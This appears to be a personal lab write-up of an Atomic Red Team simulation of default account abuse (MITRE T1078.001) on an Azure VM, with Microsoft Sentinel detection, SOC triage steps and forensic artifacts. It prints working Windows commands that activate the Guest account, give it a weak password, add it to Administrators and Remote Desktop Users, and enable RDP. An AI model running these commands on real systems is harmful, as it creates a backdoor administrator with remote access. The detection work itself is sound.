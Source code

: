 
# T1078.001 — Valid Accounts: Default Accounts

## 🧪 Atomic Red Team Simulation by Me

This test is part of my personal SOC detection engineering and investigation workflow.  
I’m manually simulating a **default account abuse scenario** on an **Azure VM**, writing the detection logic in **Microsoft Sentinel**, and confirming end-to-end incident response capability.

---

## 🎯 Objective

- Simulate abuse of the default `Guest` account to gain local admin + RDP access.
- Trigger a custom detection rule in Microsoft Sentinel.
- Confirm an incident is created.
- Begin triage and investigation like a real SOC analyst.

---

## 🧰 Tools & Lab Environment

| Tool / Platform              | Purpose                                       |
|-----------------------------|-----------------------------------------------|
| **Microsoft Sentinel**      | Detection rules + Incident management         |
| **Log Analytics Workspace** | Ingests Windows logs from VM                  |
| **Microsoft Defender for Endpoint** | Endpoint telemetry (optional, enabled if onboarded) |
| **Azure Virtual Machine**   | Victim host for test (Windows OS)             |
| **PowerShell / CMD**        | Manual execution of Atomic test               |
| **Event Viewer**            | Local log validation                          |
| **KQL (Kusto Query Language)** | Custom query logic for Sentinel analytics rules |

> 🧪 The test is run **manually** in a Cyber Range VM I fully control.

---

## ⚙️ Atomic Test Details

### ✅ Test 1 — Enable Guest + RDP + Admin

- **Technique:** T1078.001  
- **Platform:** Windows  
- **Atomic GUID:** `99747561-ed8d-47f2-9c91-1e5fde1ed6e0`

#### Manual Execution:
```cmd
net user guest /active:yes
net user guest Password123!
net localgroup Administrators guest /add
net localgroup "Remote Desktop Users" guest /add
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v AllowTSConnections /t REG_DWORD /d 1 /f
````

---

### ✅ Test 2 — Activate Guest Only

* **Atomic GUID:** `aa6cb8c4-b582-4f8e-b677-37733914abda`

```cmd
net user guest /active:yes
```

---

## 🧼 Cleanup

```cmd
net user guest /active:no
net localgroup Administrators guest /delete
net localgroup "Remote Desktop Users" guest /delete
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /f
reg delete "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v AllowTSConnections /f
```

---

## 🧠 My Detection Workflow

1. Create a **custom Sentinel rule** using KQL to detect:

   * Guest account activation (Event ID 4722)
   * Group membership change (Event ID 4732)
   * Registry changes related to RDP
2. Run the test manually on the victim VM.
3. Monitor Sentinel → confirm **incident is created**.
4. Investigate the alert using full SOC workflow.

---

## 🕵️ SOC Investigation Flow

* Review entities: host, user, account, IP
* Check `SecurityEvent` logs in Sentinel
* Look for Defender alerts or RDP telemetry
* Validate Guest was added to `Administrators`
* Look for any follow-up attacker actions
* Document findings

---

## 📍 Forensic Artifacts

| Artifact Type        | Expected Evidence                            |
| -------------------- | -------------------------------------------- |
| Windows Events       | 4722 (enabled account), 4732 (group change)  |
| Registry             | RDP keys modified (AllowTSConnections, etc.) |
| Network Traffic      | Port 3389 activity (if RDP attempted)        |
| Process/Command Logs | `net user`, `net localgroup`, `reg add`      |

---

## ✅ Outcome Checklist

* [ ] Sentinel rule created
* [ ] Atomic test run on Azure VM
* [ ] Incident successfully triggered
* [ ] Investigation completed
* [ ] VM cleaned up or reverted

---

## 📚 References

* [MITRE ATT&CK - T1078.001](https://attack.mitre.org/techniques/T1078/001/)
* [Atomic Red Team - GitHub](https://github.com/redcanaryco/atomic-red-team)
* Microsoft Sentinel & Defender Documentation

---
